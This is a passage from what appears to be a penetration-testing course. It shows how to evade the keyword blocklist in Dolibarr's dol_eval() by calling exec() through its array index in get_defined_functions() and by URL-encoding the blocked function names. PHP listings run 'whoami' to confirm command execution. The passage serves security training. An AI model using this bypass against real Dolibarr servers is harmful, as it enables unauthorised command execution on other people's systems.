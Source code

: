 php > echo get_defined_functions()["internal"][4]("hello world");
11
Listing 12 - Invoking strlen() based on array index

Excellent. We invoked the strlen() function by accessing its array index in the array returned from get_defined_functions(). After reviewing the full list of values returned by get_defined_functions(), we'll find the functions we're most interested in start at index 550.

php > print_r(get_defined_functions());
Array
(
    [internal] => Array
        (
...
            [550] => exec
            [551] => system
            [552] => passthru
            [553] => escapeshellcmd
            [554] => escapeshellarg
            [555] => shell_exec
...
Listing 13 - Excerpt of get_defined_functions() results

Let's verify we can invoke exec() this way and run whoami.

php > echo get_defined_functions()["internal"][550]("whoami");
student
Listing 14 - Invoking exec() to run "whoami"

Excellent. We can invoke exec() without specifying the function name directly. We can build a payload using this approach to bypass the restrictions in the dol_eval() function.

However, there is a slight problem. We need to know the correct index value for the function we want to invoke. The Dolibarr application may import additional functions when it's running, which could change the order of the array.

We could use array_search() to search for the function we want to call. We can't use the function name since the dol_eval() function blocks those keywords. Based on our previous analysis, we know that dol_eval() also blocks base64_decode(). Fortunately for us, PHP includes native functions for several other encoding schemes, including URL-encoding.

If we URL-encode "exec", we can use the resulting value with urldecode() in our payload. However, PHP's urlencode() function only encodes non-alphanumeric characters. This is a limitation of the function, not URL-encoding in general. We can still URL-encode alphanumeric characters with a different tool, such as the Decoder tool in Burp Suite.

Let's verify the urldecode() function will still decode URL-encoded alphanumeric characters.

php > echo urldecode("%65%78%65%63");
exec
Listing 15 - Decoding URL-encoded alphanumeric characters

Excellent. Now we should be able to chain together urldecode() and array_search() to find the index of exec() in the array returned by get_defined_functions(). We'll pass the urldecode() function call to array_search() as the needle and pass get_defined_functions() as the haystack. However, we want to access the "internal" array in the get_defined_functions() results.
